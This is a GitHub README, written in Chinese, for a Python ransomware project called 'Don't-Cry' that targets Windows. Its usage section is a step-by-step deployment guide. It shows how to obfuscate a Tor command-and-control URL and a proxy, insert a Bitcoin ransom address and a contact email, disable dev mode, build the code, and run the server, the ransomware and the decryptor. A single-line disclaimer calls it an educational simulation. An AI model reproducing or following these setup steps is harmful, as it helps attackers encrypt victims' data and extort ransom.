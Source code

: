 # Don't-Cry 勒索软件
![Python](https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white)
![Cython](https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white)
![License](https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white)
![Platform](https://img.shields.io/badge/Platform-Windows-blue)
![Status](https://img.shields.io/badge/Status-Temporarily--Inactive-orange)
![DCry](https://raw.githubusercontent.com/memecoder12345678/DCry-Ransomware/main/imgs/DCRY.png)
使用 Python 编写的勒索软件 💀💀💀
## 使用方法
* 打开 [`DCry.py`](https://github.com/memecoder12345678/DCry-Ransomware/blob/main/src/DCry.py) 文件。
* 使用 `dx42` 函数替换 `YOUR_URL` 变量，方法如下：
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  （先使用 `edx42` 模块中的 `ex42` 函数对你的 URL 进行编码。）
  
   示例：
    ```python
    encoded_url = ex42(b"https://your-tor-server.onion")
    YOUR_URL = dx42(encoded_url).decode()
  ```
* 同样用你的编码代理字符串替换 `YOUR_PROXY` 变量：
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* 用你的比特币地址字符串替换 `YOUR_BITCOIN_ADDRESS`。
* 用你的邮箱地址字符串替换 `YOUR_EMAIL_ADDRESS`。
* 将 `dev_mode` 设置为 `False` 来关闭开发模式。
* 使用以下命令安装所需依赖：
  ```bash
  pip install -r requirements.txt
  ```
* 使用以下命令构建 Cython 代码：
  ```bash
  python src/setup.py build_ext --inplace
  ```
* 使用以下命令运行服务器：
  ```bash
  python src/server.py
  ```
* 使用以下命令运行勒索软件：
  ```bash
  python src/DCRY.py
  ```
* 使用以下命令运行解密程序：
  ```bash
  python src/decryptor.py
  ```
## 警告
> \[!WARNING]
> 此项目仅为教育目的的勒索软件模拟。
## 许可证
* 本项目依据 [Apache License 2.0](./LICENSE) 许可协议发布。
